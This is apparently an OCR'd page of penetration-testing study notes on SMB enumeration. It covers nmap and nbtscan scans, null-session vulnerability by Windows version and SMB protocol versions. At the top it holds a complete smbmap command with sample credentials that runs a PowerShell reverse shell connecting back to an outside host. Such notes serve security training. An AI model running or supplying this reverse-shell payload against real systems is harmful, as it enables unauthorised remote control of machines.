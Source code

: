 Get a shell with smbmap

```
smbmap -u jsmith -p 'R33nisP!nckle' -d ABC -h 192.168.2.50 -x 'powershell -command "function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=""""192.168.0.153""""; $port=""""4445"""";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize  ;$p=New-Object System.Diagnostics.Process  ;$p.StartInfo.FileName=""""cmd.exe""""  ;$p.StartInfo.RedirectStandardInput=1  ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0  ;$p.Start()  ;$is=$p.StandardInput  ;$os=$p.StandardOutput  ;Start-Sleep 1  ;$e=new-object System.Text.AsciiEncoding  ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length)  ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}}  if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else {  $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out="""" """"}}  $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};"' 
```

Quick script to check for vulns

```
https://github.com/rowbot1/OSCP-note/blob/master/ENUMERATION/SMB/SMB-check-vulns.rb
```

mblookup — NetBIOS over TCP/IP client used to lookup NetBIOS names

### Scanning for the NetBIOS Service

SMB NetBIOS service listens on TCP ports 139 and 445, as well as several UDP ports.

`nmap -p 139,445 --open -oG smb.txt 192.168.1.0/24`

`nbtscan -r 192.168.1.0/24`

#### Null Session Enumeration

**Vulnerable SMB Versions**

#### Vulnerable versions:

```
Windows NT, 2000, and XP (most SMB1) - VULNERABLE: Null Sessions can be created by default
Windows 2003, and XP SP2 onwards - NOT VULNERABLE: Null Sessions can't be created default
Most Samba (Unix) servers
```

List of SMB versions and corresponding Windows versions:

```
SMB1 – Windows 2000, XP and Windows 2003.
SMB2 – Windows Vista SP1 and Windows 2008
SMB2.1 – Windows 7 and Windows 2008 R2
SMB3 – Windows 8 and Windows 2012.
```

Empty LM and NTLM hashes:
